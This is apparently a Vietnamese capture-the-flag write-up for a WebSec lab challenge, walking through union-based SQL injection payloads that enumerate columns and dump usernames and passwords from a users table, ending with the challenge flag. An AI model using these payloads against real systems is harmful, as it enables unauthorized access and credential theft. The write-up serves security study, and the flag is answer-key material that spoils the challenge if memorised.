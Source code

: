 #LevelOne- Select the user by ID you wish to view
>Sqli ID
>
Đề bài cho câu lênh query sql sau : 

```sql
SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1
```
Ta nhập id = 1 và xem thử đầu ra => Thì thấy 2 trường đầu ra gồm id và username 
![id](https://github.com/tinasahara1/Study/blob/4d55fb78fcaa93466bf002059f47813c4522b60f/WebSec/image/id1.PNG)

Sau đó test thử payload với column = 2 để kiểm tra lỗ hổng => payload `1 union select 1,2-- -`
![id](https://github.com/tinasahara1/Study/blob/e159b1e37be66b1d5835208db76e3c848dc67e5b/WebSec/image/id3.PNG)

Đầu ra cho thấy cả 2 column 1,2 đều lỗi => Ta group_concat(username) để tìm flag thử 
```sql
1 union select 1,group_concat(username) from users;
```

![id](https://github.com/tinasahara1/Study/blob/70136a974f491dc499021b4fc7152f83dfa8a9a3/WebSec/image/id_4.PNG)


Nhưng vẫn không thấy ta thử tiếp phần password và tìm thấy flag :
```sql
1 union select 1,group_concat(password) from users;
```

![id](https://github.com/tinasahara1/Study/blob/3bcf48f054953d8366acef0111ed71c7239dc71f/WebSec/image/id_flag.PNG)

Flag: `WEBSEC{Simple_SQLite_Injection}`
